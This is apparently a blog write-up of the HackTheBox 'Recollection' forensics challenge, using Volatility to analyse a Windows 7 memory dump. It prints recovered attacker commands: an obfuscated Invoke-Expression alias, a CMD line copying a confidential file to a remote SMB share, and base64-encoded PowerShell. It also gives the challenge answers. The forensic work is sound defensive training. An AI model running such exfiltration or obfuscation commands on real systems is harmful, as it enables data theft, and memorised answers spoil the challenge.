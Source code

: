 ```yaml
---
layout: post
date: 07-05-2024
author: Julio
---
```


<div class="center"><img src="https://labs.hackthebox.com/storage/challenges/605ff764c617d3cd28dbbdd72be8f9a2.png" width="350"></div>

# Recollection Write-Up

## Introduction

<p>Recollection is an "Easy" sherlock challenge on HackTheBox. This is the scenario: "A junior member of our security team has been performing research and testing on what we believe to be an old and insecure operating system. We believe it may have been compromised & have managed to retrieve a memory dump of the asset. We want to confirm what actions were carried out by the attacker and if any other assets in our environment might be affected. Please answer the questions below."</p>
<p>We start with a file called recollection.zip and we unzip it to get recollection.bin</p>

## Questions

### What is the Operating System of the machine?

<p>Judging my the scenario description, we are dealing with a memory dump. We can use a tool called "Volatility" to interact with it - we will be using both its version 2 and version 3. Assuming the memory dump was taken from a Windows machine, we can run the following command to get more information on the system:</p>

```bash
python3 vol.py -f ../recollection.bin windows.info
Volatility 3 Framework 2.7.0
Progress:  100.00		PDB scanning finished
Variable	Value

Kernel Base	0xf8000285c000
DTB	0x187000
Symbols	file:///Users/julio/Downloads/Recollection/volatility3/volatility3/symbols/windows/ntkrnlmp.pdb/DADDB88936DE450292977378F364B110-1.json.xz
Is64Bit	True
IsPAE	False
layer_name	0 WindowsIntel32e
memory_layer	1 FileLayer
KdDebuggerDataBlock	0xf80002a3f120
NTBuildLab	7601.24214.amd64fre.win7sp1_ldr_
CSDVersion	1
KdVersionBlock	0xf80002a3f0e8
Major/Minor	15.7601
MachineType	34404
KeNumberProcessors	1
SystemTime	2022-12-19 16:07:30
NtSystemRoot	C:\Windows
NtProductType	NtProductWinNt
NtMajorVersion	6
NtMinorVersion	1
PE MajorOperatingSystemVersion	6
PE MinorOperatingSystemVersion	1
PE Machine	34404
PE TimeDateStamp	Thu Aug  2 02:18:10 2018
```

<p>We can see <custom-code>NTBuildLab	7601.24214.amd64fre.win7sp1_ldr_</custom-code>, which indicates that the right answer is <custom-code>Windows 7</custom-code>.</p>

### When was the memory dump created?

<p>The previous command also answers this one. The dump time is the system time. The right answer is <custom-code>2022-12-19 16:07:30</custom-code>.</p>

### After the attacker gained access to the machine, the attacker copied an obfuscated PowerShell command to the clipboard. What was the command?

<p>We can use Volatility 2 to retrieve the contents of the clipboard</p>

```bash
./volatility_2.6_mac64_standalone/volatility_2.6_mac64_standalone -f ../recollection.bin --profile=Win7SP1x64_23418 clipboard
Volatility Foundation Volatility Framework 2.6
Session    WindowStation Format                         Handle Object             Data
---------- ------------- ------------------ ------------------ ------------------ --------------------------------------------------
         1 WinSta0       CF_UNICODETEXT               0x6b010d 0xfffff900c1bef100 (gv '*MDR*').naMe[3,11,2]-joIN''
         1 WinSta0       CF_TEXT                  0x7400000000 ------------------
         1 WinSta0       CF_LOCALE                    0x7d02bd 0xfffff900c209a260
         1 WinSta0       0x0L                              0x0 ------------------
```

<p>The right answer is <custom-code>(gv '*MDR*').naMe[3,11,2]-joIN''</custom-code>.</p>

### The attacker copied the obfuscated command to use it as an alias for a PowerShell cmdlet. What is the cmdlet name?

<p>We can run the following command to get more information on the console history.</p>

```bash
./volatility_2.6_mac64_standalone/volatility_2.6_mac64_standalone -f ../recollection.bin --profile=Win7SP1x64_23418 consoles
Volatility Foundation Volatility Framework 2.6
**************************************************
[...snip]
PS C:\Users\user> (gv '*MDR*').naMe[3,11,2]-joIN''
iex
PS C:\Users\user>
```

<p><custom-code>iex</custom-code> corresponds to <custom-code>Invoke-Expression</custom-code>, which is the right answer.</p>

### A CMD command was executed to attempt to exfiltrate a file. What is the full command line?

<p>The same command executed above will iive us the answer:</p>

```bash
./volatility_2.6_mac64_standalone/volatility_2.6_mac64_standalone -f ../recollection.bin --profile=Win7SP1x64_23418 consoles
Volatility Foundation Volatility Framework 2.6
**************************************************
ConsoleProcess: conhost.exe Pid: 3524
Console: 0xff9d6200 CommandHistorySize: 50
HistoryBufferCount: 3 HistoryBufferMax: 4
OriginalTitle: %SystemRoot%\system32\cmd.exe
Title: C:\Windows\system32\cmd.exe - powershell
AttachedProcess: powershell.exe Pid: 3532 Handle: 0xdc
AttachedProcess: cmd.exe Pid: 4052 Handle: 0x60
----
CommandHistory: 0xc2c50 Application: powershell.exe Flags:
CommandCount: 0 LastAdded: -1 LastDisplayed: -1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x0
----
CommandHistory: 0xbef50 Application: powershell.exe Flags: Allocated, Reset
CommandCount: 6 LastAdded: 5 LastDisplayed: 5
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0xdc
Cmd #0 at 0xc71c0: type C:\Users\Public\Secret\Confidential.txt > \\192.168.0.171\pulice\pass.txt
Cmd #1 at 0xbf230: powershell -e "ZWNobyAiaGFja2VkIGJ5IG1hZmlhIiA+ICJDOlxVc2Vyc1xQdWJsaWNcT2ZmaWNlXHJlYWRtZS50eHQi"
Cmd #2 at 0x9d1a0: powershell.exe -e "ZWNobyAiaGFja2VkIGJ5IG1hZmlhIiA+ICJDOlxVc2Vyc1xQdWJsaWNcT2ZmaWNlXHJlYWRtZS50eHQi"
```

<p>The right answer is <custom-code>type C:\Users\Public\Secret\Confidential.txt > \\192.168.0.171\pulice\pass.txt</custom-code>.</p>
